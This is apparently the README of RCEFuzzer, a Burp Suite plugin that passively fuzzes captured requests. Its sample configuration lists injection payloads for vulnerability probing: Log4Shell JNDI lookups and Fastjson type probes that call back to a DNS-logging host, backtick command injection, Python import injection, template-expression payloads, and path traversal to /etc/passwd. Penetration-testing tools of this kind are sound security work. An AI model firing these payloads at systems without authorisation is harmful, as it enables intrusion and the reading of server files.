 # RCEFuzzer


## 下载使用

[https://github.com/TheKingOfDuck/RCEFuzzer/releases/tag/0.5](https://github.com/TheKingOfDuck/RCEFuzzer/releases/tag/0.5)

## 参考链接

[RCEFuzzer - 被动扫描与fuzz上一些思路的实现](https://mp.weixin.qq.com/s/NYGBUWY820TDfnaHldxuow)

## 基本介绍

这是一个以fuzz为中心思想的被动扫描工具(该版本是BURP插件,并非独立工具)，多数扫描器的工作逻辑是以已知漏洞去冲目标，然后根据条件判断是否存在这个已知的漏洞；rcefuzzer的工作逻辑是以通用payload去污染目标的参数，然后根据条件判断是否存在未知漏洞。

举个例子，假设被动收集到的流量是

https://www.baidu.com
```
POST /sys/customer/list HTTP/1.1
Host: www.baidu.com
Content-Length: 23
Content-Type: application/json;charset=UTF-8

{"key1":"value1","key2":"eyJpbm5lcmtleTEiOiJpbm5lcnZhbHVlMSJ9","id":1,"isLogin":false,"key3":{"innerkey2":"{\"k3\":\"v3\"}"}}
```
如果配置了三条通用的payload:
```
${jndi:ldap://dnslog/log4j}
`whoami`.dnslog
{"@type":"java.net.Inet4Address","val":"dnslog"}
```

那么rcefuzzer的参数污染模块将对目标发起以下请求：

* 污染key1的值然后分别发包
* 通用污染key1的值然后分别发包
* 尝试自动解码，并污染子JSON的innerkey1的值3次然后分别发包
* 污染key3的值然后分别发包。
* 污染子JSONinnerkey2的值，然后分别发包。
* 尝试解析innerkey2，并污染子JSON的k3的值然后分别发包

理论上总的请求量是3*6=18次。这仅是参数污染模块，如果带上其他模块，那请求量可能是50。如果payload写得多点，原流量大一点，那么可能是5000次。

## 配置说明

```

###
#
# 配置说明:
#    1.tweb的配置是必须要改的, 不改显示不了漏洞
#    2.白名单的优先级是高于黑名单的
#    3.所有配置都是可以动态改的, 不用重新加载插件
# 使用说明:
#    https://www.wolai.com/gS5UWgMmHG4ynJQgzL3AYk
###
config:
  version: |  # 插件版本
    0.5
  twebdomain: | # tweb 子域名配置 
    xxxx.ceye.io
  twebapi: |  # tweb api配置 其中KEY为展位符,在新旧版本的tweb均可在Profile页面找到。ceye只是举例 ，实际上任何dnslog平台，只要有api可以get查询log即可
    http://api.ceye.io/v1/records?token=xxxx&type=dns&filter=KEY
  timeout: |  # 扫描过程中的超时配置 非tweb请求超时设置 单位毫秒 60000为60秒
    60000
  hostBlacklistReg: |  # 禁止扫描的域名列表
    (.+?)(gov\.cn|edu\.cn|tweb|google|gstatic)(.+?)
  extBlacklist: |  # 禁止扫描的后缀列表,这不是正则，本来想从passive-scan-client中抄代码的,结果发现他有bug...
    .js|.css|.jpeg|.gif|.jpg|.png|.pdf|.rar|.zip|.docx|.doc|.ico

jsonPollution:
  status:  #on为开启 off为关闭
    on
  allin: | #替换整个json数据包
    {"@type":"java.net.Inet4Address","val":"dnslog"}
  value: | #仅污染json的键值 为了python eval那种情况考虑 不加双引号包裹的话污染结果类似{"test":__import__('os')} {"test":"{\"dtaa\":__import__('os')}"}
    "${jndi:ldap://dnslog/jsonkey}"
    __import__('socket').gethostbyaddr('dnslog')

paramPollution:
  status: #on为开启 off为关闭
    on
  exprs: | #为了兼容有回显的表达式注入/代码执行漏洞
    {{9527*2333}}|22226491
    ${T(java.lang.System).getenv()}|JAVA_HOME
    ${T+++++++(java.lang.System).getenv()}|JAVA_HOME
    {php}var_dump(md5(9527));{/php}|52569c045dc348f12dfc4c85000ad832
    {if+var_dump(md5(9527))}{/if}|52569c045dc348f12dfc4c85000ad832
    ../../../../../../../../../../../../../../../etc/passwd|root
  value: |
    dnslog
    ${jndi:ldap://paramPollution.dnslog/log4j}
    `whoami`.dnslog
    http://dnslog/
    ping+-nc+1+dnslog

headerPollution:
  status: #on为开启 off为关闭
    on
  allin: | #一次性污染除了url和host外的所有请求头
    ${jndi:dns://dnslog/456}
    ${jndi:ldap://dnslog/789}
  headers: | #添加的请求头如果原数据包有则追加原值污染 无则添加后再发包 竖线|为key和value的分隔符号。
    X-Forwarded-For|${jndi:dns://dnslog/456}
    X-Api-Version|${jndi:dns://dnslog/456}

ssrfPollution:
  status: #on为开启 off为关闭
    on

responseMatch:
  status: #on为开启 off为关闭
    off
  expr: | #添加的请求头如果原数据包有则覆盖原值污染 无则添加后再发包
    thinkphp:error


```
